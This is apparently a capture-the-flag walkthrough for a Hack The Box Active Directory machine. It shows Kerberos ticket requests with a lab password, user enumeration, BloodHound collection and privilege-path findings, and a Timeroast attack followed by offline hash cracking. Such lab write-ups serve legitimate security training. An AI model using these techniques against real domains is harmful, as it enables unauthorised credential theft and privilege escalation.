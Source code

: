 ### Getting TGT and Domain Enumeration
```bash
# Request TGT for rr.parker
getTGT.py rustykey.htb/rr.parker:8#t5HE8L!W3A*
export KRB5CCNAME=rr.parker.ccache

# Enumerate domain users
nxc smb $TARGET -u $USER -p $PASSWORD -k --users
```

**Domain Users Discovered:**
- Administrator (Built-in admin)
- Guest (Built-in guest)
- krbtgt (KDC service account)
- rr.parker
- mm.turner
- bb.morgan
- gg.anderson
- dd.ali
- ee.reed
- nn.marcos
- backupadmin

### BloodHound Analysis
```bash
bloodhound-python -u rr.parker -p '8#t5HE8L!W3A*' -d 'rustykey.htb' -dc 'dc.rustykey.htb' -ns '10.10.11.75' --zip -c all -k -no-pass --auth-method kerberos
```

**Key BloodHound Findings:**
- **backupadmin**: Member of Enterprise Admins, has DCSync rights
- **nn.marcos**: Member of HelpDesk group (can change passwords for bb.morgan, has GenericWrite on dd.ali, can add members to Protected Objects group)
- **mm.turner**: Member of DELEGATIONMANAGER group (can modify msDS-AllowedToActOnBehalfOfOtherIdentity on DC)
- **bb.morgan, gg.anderson**: Members of IT group (can PSRemote to DC)
- **ee.reed**: Member of Support group (can PSRemote to DC)

## Exploitation Phase

### Timeroast Attack
Due to multiple computer objects in the domain, a Timeroast attack was conducted:

```bash
nxc smb $TARGET -M timeroast
```

This yielded multiple SNTP-MS hashes. Using the custom timecrack.py script (after fixing encoding issues):

```bash
python3 timecrack.py rustykey.hashes.timeroast /opt/rockyou.txt
```
